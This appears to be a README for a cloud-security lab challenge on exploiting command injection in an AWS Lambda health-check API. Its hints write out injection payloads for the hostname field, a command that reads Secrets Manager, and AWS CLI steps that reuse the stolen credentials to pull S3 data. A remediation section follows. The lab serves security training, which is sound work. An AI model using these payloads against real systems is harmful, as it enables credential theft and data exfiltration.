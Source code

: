# Lambda Code Injection

**Difficulty:** 4  
**Description:** Exploit command injection in Lambda to steal credentials and exfiltrate S3 data  
**Estimated Time:** 60-90 minutes

## Overview

Serverless health check API built with API Gateway and Lambda. Python function performs ping operations against user-supplied hostnames. Exposed publicly for testing purposes.

The function has access to AWS Secrets Manager and S3 buckets containing sensitive customer data.

## Learning Objectives

- Identify and exploit command injection vulnerabilities in serverless functions
- Extract AWS credentials from Lambda execution environments
- Enumerate and access AWS Secrets Manager
- Leverage stolen credentials for lateral movement
- Exfiltrate data from protected S3 buckets
- Understand Lambda security model and IAM role permissions

## Scenario

Internal services use a health check API to verify connectivity to external systems. The API accepts JSON payloads with a hostname parameter and returns ping results.

Your goal is to exploit command injection in the Lambda function, extract temporary credentials, access Secrets Manager to find database credentials, and exfiltrate customer data from S3.

## Architecture

- API Gateway endpoint at `/healthcheck`
- Lambda function with Python 3.13 runtime
- IAM execution role with Secrets Manager and S3 permissions
- S3 bucket containing confidential customer database
- Secrets Manager storing database credentials and S3 paths

## Attack Surface

**API Endpoint:**
```bash
POST /healthcheck
Content-Type: application/json

{"hostname": "example.com"}
```

**Available from outputs:**
- API Gateway endpoint URL
- Lambda function name
- IAM execution role ARN

## Key Concepts

### Command Injection in Python

Function uses `subprocess.run()` with `shell=True`, enabling shell metacharacter exploitation:
- `;` - Command separator
- `&&` - Conditional execution (success)
- `||` - Conditional execution (failure)
- `|` - Pipe output

### Lambda Execution Environment

Lambda functions run with:
- Temporary IAM credentials (automatic via execution role)
- Environment variables containing config and secrets
- AWS SDK (boto3) pre-installed
- Execution timeout (3-10 seconds typical)
- Limited output size via API Gateway

### Lambda Credential Access

Credentials available through:
- Environment variables: `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN`
- Automatic via boto3 SDK
- No IMDS endpoint (unlike EC2)

### Secrets Manager Structure

Secrets stored as JSON with:
- Secret name (identifier)
- Secret value (JSON string containing credentials/config)
- Metadata (ARN, description, rotation settings)

## Hints

<details>
<summary>Hint 1: Testing for Injection</summary>

Test shell operators appended to hostname:
```json
{"hostname": "example.com; whoami"}
{"hostname": "example.com && env"}
{"hostname": "example.com | cat /proc/self/environ"}
```
</details>

<details>
<summary>Hint 2: Credential Extraction</summary>

Lambda environment variables contain:
- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`
- `AWS_SESSION_TOKEN`
- Custom variables (check for `SECRET_NAME`, `DB_SECRET`, etc.)

Use `env` or `printenv` to enumerate all variables.
</details>

<details>
<summary>Hint 3: Accessing Secrets Manager</summary>

Lambda includes boto3 by default. Execute Python inline:
```bash
; python3 -c "import boto3; print(boto3.client('secretsmanager').get_secret_value(SecretId='SECRET_NAME'))"
```

Or check if AWS CLI is available in the Lambda layer.
</details>

<details>
<summary>Hint 4: Exfiltration</summary>

Use extracted credentials locally:
```bash
export AWS_ACCESS_KEY_ID=<key>
export AWS_SECRET_ACCESS_KEY=<secret>
export AWS_SESSION_TOKEN=<token>

aws s3 ls
aws s3 cp s3://bucket/path/file.csv .
```
</details>

## Success Criteria

✓ Identify command injection vulnerability  
✓ Extract Lambda execution role credentials  
✓ Enumerate environment variables for secret names  
✓ Retrieve database credentials from Secrets Manager  
✓ Locate S3 bucket containing customer data  
✓ Download and read confidential customer database  
✓ Capture the flag from customer records

## Common Pitfalls

- Lambda execution timeout - keep commands efficient
- API Gateway response size limits - avoid large outputs
- JSON special character encoding
- Session token required for temporary credentials
- Secrets Manager may require specific region configuration

## Remediation

**Command Injection Prevention:**
- Never use `shell=True` with user input
- Use parameterized commands: `subprocess.run(['ping', '-c', '1', hostname])`
- Validate inputs with allowlists
- Sanitize all user-supplied data

**IAM Least Privilege:**
- Lambda health checks don't need Secrets Manager access
- Restrict S3 permissions to specific prefixes
- Use resource-based policies with conditions
- Implement permission boundaries

**Secrets Management:**
- Don't expose secret names in environment variables
- Use Parameter Store for non-sensitive config
- Implement automatic secret rotation
- Encrypt environment variables

**API Security:**
- Implement authentication (API keys, IAM, Cognito)
- Deploy WAF with injection pattern rules
- Enable rate limiting
- Configure CloudTrail logging for audit trails